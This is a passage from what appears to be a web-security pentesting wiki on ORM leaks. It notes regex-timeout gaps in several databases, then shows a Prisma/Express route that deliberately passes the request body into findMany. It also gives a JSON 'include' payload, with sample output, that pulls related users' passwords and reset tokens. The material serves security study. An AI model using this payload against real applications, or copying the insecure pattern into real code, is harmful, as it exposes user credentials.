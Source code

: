 From te same post regarding this vector:

- **SQLite**: Doesn't have a regexp operator by default (require loading a third-party extension)
- **PostgreSQL**: Doesn't have a default regex timeout and it's less prone to backtracking
- **MariaDB**: Doesn't have a regex timeout

## Prisma ORM (NodeJS)

The following are [**tricks extracted from this post**](https://www.elttam.com/blog/plorming-your-primsa-orm/).

- **Full find contro**l:

<pre class="language-javascript"><code class="lang-javascript">const app = express();

app.use(express.json());

app.post('/articles/verybad', async (req, res) => {
    try {
        // Attacker has full control of all prisma options
<strong>        const posts = await prisma.article.findMany(req.body.filter)
</strong>        res.json(posts);
    } catch (error) {
        res.json([]);
    }
});
</code></pre>

It's possible to see that the whole javascript body is passed to prisma to perform queries.

In the example from the original post, this would check all the posts createdBy someone (each post is created by someone) returning also the user info of that someone (username, password...)

```json
{
    "filter": {
        "include": {
            "createdBy": true
        }
    }
}

// Response
[
    {
        "id": 1,
        "title": "Buy Our Essential Oils",
        "body": "They are very healthy to drink",
        "published": true,
        "createdById": 1,
        "createdBy": {
            "email": "karen@example.com",
            "id": 1,
            "isAdmin": false,
            "name": "karen",
            "password": "super secret passphrase",
            "resetToken": "2eed5e80da4b7491"
        }
    },
    ...
]
```
